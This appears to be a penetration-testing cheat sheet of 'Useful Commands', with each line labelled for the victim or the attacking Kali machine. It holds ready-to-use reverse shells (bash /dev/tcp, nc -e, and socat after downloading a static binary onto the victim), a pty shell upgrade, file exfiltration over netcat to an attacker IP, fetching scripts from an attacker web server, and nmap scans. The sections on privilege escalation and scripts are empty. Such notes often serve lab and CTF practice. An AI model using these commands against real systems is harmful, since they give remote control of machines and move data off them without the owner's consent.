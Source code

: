 # Useful Commands

## Web server

### With Python

```
python3 -m http.server 8888
``` 

```
python -m SimpleHTTPServer 8888
```

## Upgrade reverse shell

### With Socat

Victim: 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
Kali:   ```socat file:`tty`,raw,echo=0 tcp-listen:4444```

### With Python

Victim: ```python3 -c 'import pty; pty.spawn("/bin/sh")'```

## Send files

### With netcat

Victim: ```cat file.txt | nc -q 0 10.10.10.10 4444```

Kali:   ```nc -lvp 4444 > file.txt```

### With web server

Kali: ```python3 -m http.server 8888``` or ```python -m SimpleHTTPServer 8888```

Victim: ```wget http://10.10.10.10:8888/something.sh -O something.sh```

## Reverse shells

### With bash

```
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

```
nc -lvp 4444
```

### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

```
nc -lvp 4444
```

# Enumeration

### Nmap

TCP Scan:

```
nmap -sV -sC -p- 10.10.10.77
```

UDP Scan:

```
nmap -sU -sV -p- 10.10.10.77
```

# Privilege Escalation

# Some Scripts

# References
